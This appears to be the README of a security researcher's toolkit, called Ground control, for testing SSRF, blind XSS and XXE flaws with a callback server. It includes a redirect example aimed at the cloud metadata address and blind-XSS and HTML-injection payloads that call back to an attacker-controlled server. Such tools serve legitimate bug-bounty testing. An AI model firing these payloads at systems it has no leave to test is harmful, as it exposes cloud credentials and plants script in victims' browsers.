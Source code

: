 # Ground control
This is a collection of all my scripts that I use to debug Server Side Request Forgery (SSRF), blind XSS, and insecure XXE processing vulnerabilities. This is still a work in progress, as I'm still collecting all the scripts that I have lingering around. Before using these scripts, I used to rewrite these scripts most of the time or set up listeners with `netcat`. That wasn't scalable, so I started collecting the scripts in a repository, which can be closed easily every time it's needed it on a server.

## Requirements
Running this script requires Ruby 2.3, a valid SSL certificate for a domain you own, and a web server that allows to open port `80`, `443`, `8080`, and `8443`. The use of each port will be explained in this document.

## Setting up
Clone this repository and install the required components by running `install.sh`. After that, run `start.sh` to start to listen on all ports.

## Functions

### Redirects
The `/redirect` endpoint is used to redirect a request to another server or endpoint. This may assist you when you need an external server to redirect back to an internal system. See below for examples.

```
curl -vv "http://server/redirect?url=http://169.254.169.254/latest/meta-data/"
```

### Ping Pong
Sometimes, you simply need a page that responds with a certain body and headers. The `/ping_pong` endpoint does exactly that. Here's a few examples.

```
curl -vv "http://server/ping_pong?body=%3ch1%3eHello%3c/h1%3e"
```

### Blind callbacks
To figure out of an inaccessible system is executing your HTML or XSS payload, add an item the `callback_tokens` in `config.json`. The structure is shown below. This callback contains information where you injected your payload. This will help you identify the root cause of the vulnerability if you receive a callback. Every unique combination of parameter, host, port, path, and method is supposed to have its own `callback_token`.

```
{
  "callback_tokens": {
    "ee34a1791ab345f789": {
      "host": "hackerone.com",
      "port": 443,
      "ssl": true,
      "path": "/webhooks",
      "parameter": "url",
      "method": "POST"
    }
  }
}
```

Depending on what type of vulnerability you want to test for, you have to construct a payload. See below for an example for HTML injections and XSS vulnerabilities. Then, submit the payload to the injection point. You'll see a log entry in `logs/access_log` when a request with that `callback_token` was triggered. Most of the time, I use `tail -f logs/access_log` to see if something triggered.

**HTML injection**
```
<img src="https://server/pixel?callback_token=ee34a1791ab345f789" style="display:none;"/>
```

**Blind XSS**
```
<script src="https://server/collect?callback_token=ee34a1791ab345f789"></script>
```

### Starting another server
The server listens on port `80`, `443`, `8080`, and `8443` by default. However, if you want to start another server on a different port, run `ruby app/server.rb -p :port`. To use SSL, append `-cert :cert.pem`. This is especially useful when a potential SSRF vulnerability only allows to connect on certain ports. Say bye to all the Apache and nginx configuration hacking!
